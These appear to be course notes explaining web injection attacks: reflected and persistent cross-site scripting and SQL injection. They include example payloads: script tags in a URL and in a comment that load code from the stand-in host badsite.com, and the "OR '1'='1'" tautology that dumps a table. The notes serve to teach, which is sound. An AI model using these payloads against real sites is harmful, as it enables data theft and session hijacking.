 # Other web flaws

* Someone interested in obtaining unauthorized data from the background database server crafts and passes SQL commands
  to the server through the web interface.
* Similar attacks involve writing scripts in Java. These attacks are called scripting or injection attacks because the
  unauthorized request is delivered as a script or injected into the dialog with the server.

## Cross-Site Scripting

* Scripting attack: forcing the server to execute commands (a script) in a normal data fetch request
* To a user (client) it seems as if interaction with a server is a direct link, so it is easy to ignore the possibility
  of falsification along the way. However, many web interactions involve several parties, not just the simple case of
  one client to one server.
* In an attack called cross-site scripting, executable code is included in the interaction between client and server and
  executed by the client or server.

* For Example :
    * http://www.google.com/search?name=<SCRIPT
      SRC=http://badsite.com/xss.js></SCRIPT>&q=cross+site+scripting&ie=utf-8&oe=utf-8 &aq=t&rls=org.mozilla:en-US:
      official &client=firefox-a&lr=lang_en
    * This string would connect to badsite.com where it would execute the Java script xss that could do anything allowed
      by the user’s security context.

* Sometimes a volley from the client will contain a script for the server to execute. The attack can also harm the
  server side if the server interprets and executes the script or saves the script and returns it to other clients (who
  would then execute the script).
    * Such behavior is called a persistent cross-site scripting attack.

* A malicious user could post a comment with embedded HTML containing a script, such as but their browser would execute
  the malicious script.
    * For example : Cool<br>story.<br>KCTVBigFan<script src=http://badsite.com/xss.js></script>

## SQL Injection

* SQL injection operates by inserting code into an exchange between a client and database server.
* To understand this attack, you need to know that database management systems (DBMSs) use a language called SQL (which,
  in this context, stands for structured query language) to represent queries to the DBMS.
* If the user can inject a string into this interchange, the user can force the DBMS to return a set of records. The
  DBMS evaluates the WHERE clause as a logical expression.
    * For Example:  QUERY = “SELECT * FROM trans WHERE acct=’”+ acctNum + ”’;”
    * If the user enters the account number as “‘2468’ OR ‘1’=‘1’” the resulting query becomes
    * QUERY = “SELECT * FROM trans WHERE acct=‘2468’ OR ‘1’=‘1’”
* Because ‘1’=‘1’ is always TRUE, the OR of the two parts of the WHERE clause is always TRUE, every record satisfies the
  value of the WHERE clause and so the DBMS will return all records in the database.
* The trick here, as with cross-site scripting, is that the browser application includes direct user input into the
  command, and the user can force the server to execute arbitrary SQL commands.
